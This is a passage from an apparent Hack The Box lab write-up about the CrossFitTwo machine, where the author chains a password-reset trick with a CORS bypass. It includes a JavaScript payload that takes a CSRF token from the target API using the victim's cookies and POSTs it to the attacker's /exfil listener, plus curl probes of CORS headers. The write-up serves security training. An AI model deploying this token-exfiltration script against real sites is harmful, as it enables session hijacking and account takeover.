 ![image-20210711071621488](https://0xdfimages.gitlab.io/img/image-20210711071621488.png)

I’ll re-trigger the exploit and I see the requests come in first for `password-reset.php`, and then for `/test` just like above. It loaded the PHP page and the JavaScript made a request!

#### CORS Bypass

To make the request to `crossfit-club.htb/api/signup`, I need an CSRF token. I’ll update the script to request one, and send it back to make sure it worked. I’ll remember from [Crossfit](/2021/03/20/htb-crossfit.html#csrf-account-request) that I need to use `withCredentials` to keep the cookie the same throughout the entire request, so I’ll add this now.

```

<html>
  <head>
    <title>pwned</title>
  </head>
  <body>
    <script>
      var req_token = new XMLHttpRequest();
      req_token.onreadystatechange = function() {
        if (req_token.readyState == 4) {
          var token = JSON.parse(req_token.response).token
          var req_exfil = new XMLHttpRequest();
          req_exfil.open("POST", "http://0xdf-employees.crossfit.htb:81/exfil", false);
          req_exfil.send(token);
        }
      }
      req_token.open("GET", "http://crossfit-club.htb/api/auth");
      req_token.withCredentials = true;
      req_token.send();
    </script>
  </body>
</html> 

```

It doesn’t work. I see my HTML page requested, but then there’s no POST back to port 81. The request I know does work doesn’t even come back, implying the first one breaks. If I try it locally and look at the Console in the Dev Tools, I can see a potential issue:

![image-20210711133152425](https://0xdfimages.gitlab.io/img/image-20210711133152425.png)

The admin’s browser is visiting `0xdf-employees.crossfit.htb`, and so the single POST back to that domain isn’t an issue. But when I try to make it issue a GET to `crossfit-club.htb`, if that domain doesn’t allow cross origin requests from `0xdf-employees.crossfit.htb`, it will fail and end the JavaScript.

If `crossfit-club.htb` allows cross origin requests from a page, it will have a `Access-Control-Allow-Origin` header in the response to an OPTIONS request. For example, `gym` and `employees` allow for these requests, but the base domain and my spoofed domain do not:

```

oxdf@parrot$ curl -s -X OPTIONS -v -H "Origin: http://crossfit.htb" crossfit-club.htb/api/auth 2>&1 | grep Access-Control-Allow-Origin
oxdf@parrot$ curl -s -X OPTIONS -v -H "Origin: http://0xdf-employees.crossfit.htb" crossfit-club.htb/api/auth 2>&1 | grep Access-Control-Allow-Origin
oxdf@parrot$ curl -s -X OPTIONS -v -H "Origin: http://gym.crossfit.htb" crossfit-club.htb/api/auth 2>&1 | grep Access-Control-Allow-Origin
< Access-Control-Allow-Origin: http://gym.crossfit.htb
oxdf@parrot$ curl -s -X OPTIONS -v -H "Origin: http://employees.crossfit.htb" crossfit-club.htb/api/auth 2>&1 | grep Access-Control-Allow-Origin
< Access-Control-Allow-Origin: http://employees.crossfit.htb

```